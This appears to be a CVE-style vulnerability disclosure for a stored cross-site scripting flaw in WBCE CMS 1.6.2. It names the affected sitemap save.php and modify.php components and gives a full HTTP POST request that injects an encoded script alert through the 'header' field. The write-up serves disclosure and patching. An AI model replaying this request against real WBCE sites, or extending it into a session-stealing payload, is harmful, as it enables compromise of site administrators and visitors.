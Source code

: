 Vulnerability type : Cross Site Scripting

Vendor of the product(s) : https://wbce.org/de/wbce、https://github.com/WBCE/WBCE_CMS

Affected Product Code Base : WBCE_CMS =1.6.2

Affected Component : /admin/pages/modify.php、/wbce/modules/sitemap/save.php

Attack Type : Remote

Attack Vectors : Users can insert JavaScript statements by controlling website_header


Stored Cross-Site Scripting

![](https://github.com/WindyAlexQ/CVE/blob/main/images/259173815259273.png)

request packet

```
POST /wbce/modules/sitemap/save.php HTTP/1.1
Host: 192.168.168.129
Content-Length: 370
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.168.129
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.168.129/wbce/admin/pages/modify.php?page_id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session_b2evo=1_8Lvt6Brj6zjgD62GctG92mRj3pftZwEK; loginstate=false; phpsessid-9277-sid=c7ufghg4icqd737a3segkc1ith; stElem___stickySidebarElement=%5Bid%3A0%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A1%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A2%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A3%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A4%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A5%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A6%5D%5Bvalue%3AnoClass%5D%23; WBCELastConnectJS=1722929712
Connection: close

page_id=4&section_id=4&static=1&formtoken=23cd25eb-c83644b5f00c0344e9652534dc6a7dc0bf26cd39&startatroot=1&depth=0&all_menus=0&header=%3Cscript%3Ealert%28%22xss+test%21%22%29%3C%2Fscript%3E&level_header=%3Cul%3E&sitemaploop=%3Cli%3E%3Ca+href%3D%22%5BLINK%5D%22+target%3D%22%5BTARGET%5D%22%3E%5BPAGE_TITLE%5D%3C%2Fa%3E%3C%2Fli%3E&level_footer=%3C%2Ful%3E&footer=&save=Save
```



![](https://github.com/WindyAlexQ/CVE/blob/main/images/516704015247140.png)
